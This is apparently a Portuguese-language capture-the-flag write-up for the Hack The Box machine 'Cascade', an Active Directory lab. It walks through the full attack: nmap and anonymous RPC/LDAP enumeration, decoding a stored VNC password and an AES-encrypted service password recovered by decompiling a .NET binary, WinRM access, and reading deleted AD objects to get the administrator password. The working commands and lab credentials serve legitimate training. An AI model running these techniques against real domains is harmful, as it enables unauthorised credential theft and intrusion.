

- Resolução da máquina Cascade 1. Máquina Medium (hackthebox.com) 2. by JavaliMZ - 21/09/2021
- Enumeração
- PrivEsc

Resolução da máquina Cascade
Máquina Medium (hackthebox.com)
by JavaliMZ - 21/09/2021
Enumeração
Nmap
Como em todas as máquinas que fazemos, e como em qualquer trabalho de Pentesting, a primeira fase é a de reconhecimento. Nesta fase, iremos proceder á enumeração das portas, e de outras coisas a seguir. Para enumerar as portas da nossa máquina alvo, irei usar o nmap.
nmap -p- -n -Pn 10.10.10.182 -sS --min-rate 5000 -oG enumeration/allPorts
nmap -p53,88,135,139,389,445,636,3268,3269,5985,49154,49155,49157,49158,49170 10.10.10.182 -sC -sV -Pn -oN enumeration/nmap-a.txt

# Nmap 7.91 scan initiated Tue Sep 21 17:23:02 2021 as: nmap -p53,88,135,139,389,445,636,3268,3269,5985,49154,49155,49157,49158,49170 -sC -sV -Pn -oN enumeration/nmap-a.txt 10.10.10.182
Nmap scan report for cascade.local (10.10.10.182)
Host is up (0.041s latency).
PORT STATE SERVICE VERSION
53/tcp open domain Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid:
|_ bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2021-09-21 16:23:10Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
636/tcp open tcpwrapped
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: cascade.local, Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49154/tcp open msrpc Microsoft Windows RPC
49155/tcp open msrpc Microsoft Windows RPC
49157/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
49158/tcp open msrpc Microsoft Windows RPC
49170/tcp open msrpc Microsoft Windows RPC
Service Info: Host: CASC-DC1; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 2.02:
|_ Message signing enabled and required
| smb2-time:
| date: 2021-09-21T16:24:00
|_ start_date: 2021-09-21T16:08:00
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 21 17:24:39 2021 -- 1 IP address (1 host up) scanned in 97.48 seconds
O resultado do nmap nos indica que provavelmente estaremos enfrentando um Active Directory / Domain Controller, devido ás suas portas de DNS, Samba, RPC, LDAP, Kerberos e WinRM abertas.
RDP
A primeira coisa a analisar é ver se podemos extrair nomes de usuários de domínio via RPCClient. Nesta máquina temos que especificar que queremos entrar com o usuário vazio (-U '') e sem password (-N).
rpcclient 10.10.10.182 -N -U ''
Neste ponto estamos efectivamente no modo interativo, e podemos listar os usuários via enumdomusers. Para extrair melhor os dados, prefiro executar diretamente os comandos em vez de entrar em modo interativo para poder receber o resultado no meu stdout normal e poder pipear os comandos com outros:
rpcclient 10.10.10.182 -N -U '' -c 'enumdomusers' | grep -oP '\[.*?\]' | grep -v '0x' | tr -d '[]' > contents/users

GetNPUsers.py
Agora que temos usuários de domínio, irei só adicionar usuários admin por defeito e, já que kerberos está aberto, tentar efetuar uma ataque chamado AS-REP Roasting Attack, para tentar recuperar TGT de usuário que foram criados com a opção 'Do not require Kerberos preauthentication' selecionada. Ainda perciso saber o nome do Domain Controller. Então primeiro, vou rodar um crackmapexec, guardar as informações relevantes, e a seguir usar o GetNPUsers.py para tentar recuperar TGTs.
crackmapexec smb 10.10.10.182
#> SMB 10.10.10.182 445 CASC-DC1 [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
echo -e "10.10.10.182\tcascade.local" >> /etc/hosts
GetNPUsers.py cascade.local/ -no-pass -usersfile contents/users
Nenhum usuário é AS-REP Roastable... Next!
LDAPSearch
O ldapsearch é uma ferramenta que pode extrair toda a informação de todos os objectos extraíveis por LDAP, que é um protocolo de aplicação para acessar e manter serviços de informações de diretório. É por aí que, por exemplo, uma administrador de domínio cria um novo usuário local de uma máquina onde ele não está... Podemos enumerar os usuários todos, grupos, quem pertence a "x" grupo... É também esse o protocolo pelo qual a ferramenta bloodhound-python, já usada em outras máquina, extrai toda a informação para gerar o gráfico do bloodhound.
ldapsearch -x -h 10.10.10.182 -b "dc=cascade,dc=local" | grep "@cascade.local" -A 25 | grep -Ei "userPrincipalName|pass|pwd|cred|secret"
#> userPrincipalName: CascGuest@cascade.local
#> userPrincipalName: arksvc@cascade.local
#> userPrincipalName: s.smith@cascade.local
#> userPrincipalName: r.thompson@cascade.local
#> cascadeLegacyPwd: clk0bjVldmE=
#> userPrincipalName: util@cascade.local
#> userPrincipalName: j.wakefield@cascade.local
#> userPrincipalName: s.hickson@cascade.local
#> userPrincipalName: j.goodhand@cascade.local
#> userPrincipalName: a.turnbull@cascade.local
#> userPrincipalName: e.crowe@cascade.local
#> userPrincipalName: b.hanson@cascade.local
#> userPrincipalName: d.burman@cascade.local
#> userPrincipalName: BackupSvc@cascade.local
#> userPrincipalName: j.allen@cascade.local
#> userPrincipalName: i.croft@cascade.local
Temos de novo todos os usuários, mas também temos uma informação bonus! Uma palavra passe =)
r.thompson:clk0bjVldmE=
Vamos validar a palavra passe com crackmapexec!
Em primeira instância, a password não funciona... mas o seu formato é típico de dados criptografado em base64...
r.thompson:rY4n5eva
PrivEsc
SMBClient
Temos credenciais válidas. Agora com essas novas credenciais podemos aceder ao conteúdo partilhado por Samba
smbmap -H 10.10.10.182 -u 'r.thompson' -p 'rY4n5eva'
#> [+] IP: 10.10.10.182:445 Name: cascade.local
#> Disk Permissions Comment
#> ---- ----------- -------
#> ADMIN$ NO ACCESS Remote Admin
#> Audit$ NO ACCESS
#> C$ NO ACCESS Default share
#> Data READ ONLY
#> IPC$ NO ACCESS Remote IPC
#> NETLOGON READ ONLY Logon server share
#> print$ READ ONLY Printer Drivers
#> SYSVOL READ ONLY Logon server share
Podemos ver 4 recursos compartilhados. Vamos dar uma vista de olhos á pasta Data
smbclient \\\\10.10.10.182\\Data -U 'r.thompson%rY4n5eva'
#> Try "help" to get a list of possible commands.
#> smb: \> dir
#> . D 0 Mon Jan 27 03:27:34 2020
#> .. D 0 Mon Jan 27 03:27:34 2020
#> Contractors D 0 Mon Jan 13 01:45:11 2020
#> Finance D 0 Mon Jan 13 01:45:06 2020
#> IT D 0 Tue Jan 28 18:04:51 2020
#> Production D 0 Mon Jan 13 01:45:18 2020
#> Temps D 0 Mon Jan 13 01:45:15 2020
#>
#> 13106687 blocks of size 4096. 8163940 blocks available
#> smb: \>
smbclient permite ver os recursos em modo interativo. Vemos que são várias pastas. Como não há muitas coisas, e o conteúdo também não é grande, vou descarregar tudo de uma vez só
smb: \> prompt off
smb: \> recurse on
mget *
Existem 2 ficheiros interessantes: - "IT/Email Archives/Meeting_Notes_June_2018.html" - "IT/Temp/s.smith/VNC Install.reg"
O ficheiro html contem informações de que existiu um usuário temporário de nome "TempAdmin" com uma nota (password is the same as the normal admin account password). Se por alguma razão conseguirmos obter a palavra passe se TempAdmin, provavelmente será a mesma de Administrator...
Ficheiro Meeting_Notes_June_2018.html
From:���������������������������������������� Steve Smith
To:���������������������������������������������� IT (Internal)
Sent:������������������������������������������ 14 June 2018 14:07
Subject:������������������������������������ Meeting Notes
For anyone that missed yesterday�s meeting (I�m looking at you Ben). Main points are below:
-- New production network will be going live on Wednesday so keep an eye out for any issues.
-- We will be using a temporary account to perform all tasks related to the network migration and this account will be deleted at the end of 2018 once the migration is complete. This will allow us to identify actions related to the migration in security logs etc. Username is TempAdmin (password is the same as the normal admin account password).
-- The winner of the �Best GPO� competition will be announced on Friday so get your submissions in soon.
Steve
Na pasta IT/Temp/s.smith, o arquivo VNC contém uma password em hexadecimal.
"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f
dos2unix VNC\ Install.reg
cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}'
#> 6bcf2a4b6e5aca0f
echo $(cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}') | xxd -ps -r
#> k*KnZ
Não parece ser a password... e se tentarmos validar com crackmapexec, não corresponde a nenhum usuário. VNC encripta a palavra passe. Mas com uma pequena pesquisa, da para se encontrar na net com desencriptar...
echo $(cat VNC\ Install.reg | grep 'Password' | tr -d ',' | awk -F ":" '{print$2}') | xxd -ps -r | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d
#> sT333ve2
Agora sim! parece uma password
s.smith:sT333ve2


s.smith tem acesso a mais uma pasta. a pasta Audit$. Vamos ver o que há lá e descarregar tudo se for viável devido ao peso.
sqlite3
No recurso Audit$ compartilhado a nível de rede, existem binários.exe, dlls e uma base de dados. Podemos ver rapidamente a base de dados com sqlite3
sqlite3 Audit.db
sqlite> .tables
#> DeletedUserAudit Ldap Misc
sqlite> select * from DeletedUserAudit;
#> 6|test|Test
#> DEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d|CN=Test\0ADEL:ab073fb7-6d91-4fd1-b877-817b9e1b0e6d,CN=Deleted Objects,DC=cascade,DC=local
#> 7|deleted|deleted guy
#> DEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef|CN=deleted guy\0ADEL:8cfe6d14-caba-4ec0-9d3e-28468d12deef,CN=Deleted Objects,DC=cascade,DC=local
#> 9|TempAdmin|TempAdmin
#> DEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a|CN=TempAdmin\0ADEL:5ea231a1-5bb4-4917-b07a-75a57f4c188a,CN=Deleted Objects,DC=cascade,DC=local
sqlite> select * from Ldap;
#> 1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
ArkSvc está na nossa lista de usuários. O dado encriptado em base64 poderá ser a palavra pass...
echo BQO5l5Kj9MdErXx6Q6AGOw== | base64 -d
#> D|zC;
Parece que não está em texto claro!! Mas também não sabemos como foi criptografado... não é como o VNC, que sempre criptografa as suas palavras passes da mesma maneira à anos... Temos que encontrar como foi criptografado. Isto vem de uma base de dados, que está na mesma pasta que um programa desconhecido e o seu dll (aparentemente): CascAudit.exe e CascCrypto.dll. Pelos nomes, isto é promissor...
dotPeek (JetBrains)
O dotPeek é um descompilador de código baseado em .NET. E como sei que esse programa funciona?
file CascAudit.exe
#> CascAudit.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
Com a utilidade "file", vemos que é um executável Windows feito em Mono/.Net assembly. Portanto, é provável que funcione

Vemos que, na linha 39, o programa connecta-se à base de dados, como prevíamos. E na linha 46, percebemos que a string EncryptedString é a tal palavra que encontramos com o sqlite3. A seguir na linha 49, o programa tenta decryptar a palavra passe. Essa função "Crypto.DecryptString(EncryptedString, "c4scadek3y654321")" está a ser importada do CascCrypto.dll

Na linha 39 do Crypto.cs é que está definido a função "DecryptString". E dái já vemos muitas informações.
- Crypto.DecryptString(EncryptedString, "c4scadek3y654321"); (MainModule.cs)
- O trabalho de desencriptação parte daí
- public static string DecryptString(string EncryptedString, string Key);
- Isto é o nome da função, e os seus argumentos. a Key usada foi a que está em cima em texto claro ("c4scadek3y654321")
- byte[] buffer = Convert.FromBase64String(EncryptedString);
- Confirma-se que a palavra passe que encontramos na base de dados está em base64, pois o programa está a descodificar antes de tratá-lo
- Aes aes = Aes.Create();
- Aes é um tipo de criptografia de dados...
- Aes é amplamente usado por ser um tipo de criptografia virtualmente inquebrável, que levaria vidas inteiras para decifrá-la por brute force... Mas com o código fonte, a coisa muda...
- aes.IV = Encoding.UTF8.GetBytes("1tdyjCbY1Ix49842");
-
- aes.Mode = CipherMode.CBC;
- O método de codificação usado é o CBC cipher
- aes.Key = Encoding.UTF8.GetBytes(Key);
- confirma-se da situação da Key ser "c4scadek3y654321"
Resumo: - AES - Key == "c4scadek3y654321" - IV == "1tdyjCbY1Ix49842" - Mode == "CBC"
Decrypt Password
Agora é só decifrá-lo. Isto claramente não vou fazer com uma calculadora (de uma não sei como se faz, e não deve ser fácil lol). Para isso existe ferramentas online, e programas diversos no github. Vou usar uma ferramenta online. o CyberChef. è só procurar as "operations", por o input e guardar o Output

arksvc:w3lc0meFr31nd
Sempre verificar a palavra passe com crackmapexec
crackmapexec smb 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'
#> SMB 10.10.10.182 445 CASC-DC1 [*] Windows 6.1 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
#> SMB 10.10.10.182 445 CASC-DC1 [+] cascade.local\arksvc:w3lc0meFr31nd
crackmapexec winrm 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'
#> WINRM 10.10.10.182 5985 CASC-DC1 [*] Windows 6.1 Build 7601 (name:CASC-DC1) (domain:cascade.local)
#> WINRM 10.10.10.182 5985 CASC-DC1 [*] http://10.10.10.182:5985/wsman
#> WINRM 10.10.10.182 5985 CASC-DC1 [+] cascade.local\arksvc:w3lc0meFr31nd (Pwn3d!)
Temos capacidade de entrar na máquina via evil-winrm!
PrivEsc

A ultima fase para escalar privilégios até administrador é a seguinte: Este usuário está no grupo "CASCADE\AD Recycle Bin". Isto permite ver todos os objectos do active directory que foram removidos. Isto inclui o tal usuário TempAdmin, cuja a sua password poderá ser a mesma do que a do Administrator.
Para reaver todos os objectos removidos, basta uma linha de comando...
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
Á resposta deste comando nesta máquina não é muito grande... mas normalmente é enorme. Por isso, recomendo exportar para um ficheiro, fazer o download deste para a nossa maquina, e fazer um grep por "LegacyPwd e CanonicalName" ´
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties * > output.txt
# Pelo evil-winrm, é possível fazer donwload e upload directamente com a ferramenta:
download "C:/Users/arksvc/Documents/output.txt"
# kali
cat output.txt | grep -Ei "Legacypwd|canonicalName"
#> CanonicalName : cascade.local/Deleted Objects
#> CanonicalName : cascade.local/Deleted Objects/CASC-WS1
#> CanonicalName : cascade.local/Deleted Objects/Scheduled Tasks
#> CanonicalName : cascade.local/Deleted Objects/{A403B701-A528-4685-A816-FDEE32BDDCBA}
#> CanonicalName : cascade.local/Deleted Objects/Machine
#> CanonicalName : cascade.local/Deleted Objects/User
#> CanonicalName : cascade.local/Deleted Objects/TempAdmin
#> cascadeLegacyPwd : YmFDVDNyMWFOMDBkbGVz
O último objecto cascade.local/Deleted Objects/TempAdmin tem como password logo abaixo YmFDVDNyMWFOMDBkbGVz (que me parece ser base64 também, mesmo não existing um "=" ou dois "==" no final)
echo YmFDVDNyMWFOMDBkbGVz | base64 -d
#> baCT3r1aN00dles
Esta password era do usuário TempAdmin, mas o ficheiro html nos indicava que este usuário tinha a mesma password do que o administrador. Vamos fazer um spray na mesma com crackmapexec, mas à partida não há dúvidas

Está feito! Somos donos da máquina...
cmd /c 'dir /r /s root.txt user.txt 2>NUL'
(type C:\Users\Administrator\Desktop\root.txt).SubString(0,15)
#> 84c82c72c538ca8
(type C:\Users\s.smith\Desktop\user.txt).SubString(0,15)
#> 2c684f92b315c28